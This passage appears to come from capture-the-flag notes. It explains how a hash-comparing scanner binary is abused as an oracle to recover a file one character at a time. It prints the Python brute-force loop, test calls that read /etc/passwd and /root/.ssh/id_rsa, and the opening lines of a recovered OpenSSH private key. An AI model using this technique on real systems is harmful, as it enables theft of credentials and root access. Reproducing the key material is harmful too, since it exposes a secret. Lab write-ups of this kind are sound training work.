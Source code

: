         result = subprocess.run(['/opt/scanner/scanner','-c', file, '-l', str(len(guess)), '-s', hash], stdout=subprocess.PIPE)
        if len(result.stdout) >0:
                return True
        return False

---TEST---
brute("/etc/passwd","root")    # We know this is true as it is the first user but we can check with cat /etc/passwd | head -1
> True
brute("/etc/passwd","greg")
> False
brute ("/root/.ssh/id_rsa","--") # key stats with ----BEGIN..---
> True
```
			- brute function :
				- it get's te md5 value of `guess` and compares it with the md5 hash of the file it reads and compares. 
					- If `guess` is `ro` then it checks the first 2 characters of the file, hashes it, and compares it with the hash of `guess`, i.e the hash of `ro`. If it matches, it returns as True, if not, it returns as False.
						- When checking the code, we would see that it returns something when true, but nothing when false, so we created the loop to check that if the output is >0 i.e there is some output, it is True, else it is False.
	- The final LOOP explanation:
		```bash
LOOP = True
guess = "-----BEGIN OPENSSH PRIVATE KEY-----"
print(guess,end="")
while LOOP:
        for c in charset:
                if brute("/root/.ssh/id_rsa", guess + c):
                        guess += c
                        print(c, end="", flush=True)
                        break
                if c == "\n":
                        LOOP = False
```
		- We set LOOP as True
		- guess is `-----BEGIN OPENSSH PRIVATE KEY-----` as that is how SSH key's start.
			- While the LOOP is set to true, for every character c is our charset, we will call the brute function which compares the:
				- md5 hash of the character's in `guesss` + the base64 character c in our charset with 
				- the md5 hash of the character it reads in the file we state
				charset is basically all base64 characters as that is what's present in SSH keys
			- If `guess`+c returns False, it will move on to the next character until brute returns True
				- If `guess`+c returns False, and c is \n, which is the last character in our charset, then there was no match, and the loop breaks. Letting us know that program failed.
			- If `guess`+c returns true, c is appended to `guess`
				- This goes on until all the characters in the file are read and matched, printing the output
	- Exploit this python script in target:
		```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
0LZdhfMuJsJsFLhZufADwPVRK1B0oMjcnljhUuVvYJtm8Ig/8fC9ZEcycF69E+nBAiDuUm
kDAhdj0ilD63EbLof4rQmBuYUQPy/KMUwGujCUBQKw3bXdOMs/jq6n8bK7ERcHIEx6uTdw
gE6WlJQhgAp6hT7CiINq34Z2CFd9t2x1o24+JOAQj9JCubRa1fOMFs8OqEBiGQHmOIjmUj
7x17Ygwfhs4O8AQDvjhizWop/7Njg7Xm7ouxzoXdAAAFiJKKGvOSihrzAAAAB3NzaC1yc2
EAAAGBAOcjLoj2lj6+j9BmIlIuRJ6g/EDjPQe4JtpUx8JQOxTMPef8MvCVtx6hDGK1kjaV
9h6m78Z4TgQlv7sCjGxW+CzyPhM0enh6+bxuN/BKHhpixQb4YHueFpE70Mnb5OsasY8qYt